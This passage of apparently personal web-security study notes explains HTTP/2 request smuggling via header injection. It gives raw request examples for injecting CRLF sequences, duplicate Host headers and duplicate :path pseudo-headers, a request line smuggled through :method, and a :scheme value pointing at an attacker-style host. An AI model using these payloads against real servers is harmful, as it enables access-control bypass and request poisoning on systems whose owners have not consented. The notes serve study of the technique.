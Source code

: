 Back-end (HTTP/1)
```http
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

**Host**:
Although the HTTP/1 `Host` header is effectively replaced by the `:authority` pseudo-header in HTTP/2, you're still allowed to send a `host` header in the request as well.
In some cases, this may result in two `Host` headers occurring in the rewritten HTTP/1 request, which opens up another possibility for bypassing front-end "duplicate `Host` header" filters, for example, opening to [Host Header attacks](Host%20Header%20attacks.md).

**Path**:
As the path in HTTP/2 is specified using a pseudo-header, it's now possible to send a request with two distinct paths as follows:
```http
:method	POST
:path	/anything
:path	/admin
:authority	vulnerable-website.com
```
If there is a discrepancy between which path is validated by the website's [Access control security models](Access%20control%20security%20models.md) and which path is used to route the request, this may enable you to access endpoints that would otherwise be off limits, opening for [Access control vulnerabilities](Access%20control%20vulnerabilities.md)

**Method**:
If the server allows you to include spaces in the `:method` value, you may be able to inject an entirely different request line as follows:
```http
:method	GET /admin HTTP/1.1
:path	/anything
:authority	vulnerable-website.com
```

Once rewritten in HTTP/1, it becomes:
```http
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```

**Scheme**:
This can be useful when the server uses the `:scheme` header to dynamically generate a URL, for example. In this case, you could add a prefix to the URL or even override it completely by pushing the real URL into the query string:

*Request*
```http
:method	GET
:path	/anything
:authority	vulnerable-website.com
:scheme	https://evil-user.net/poison?
```
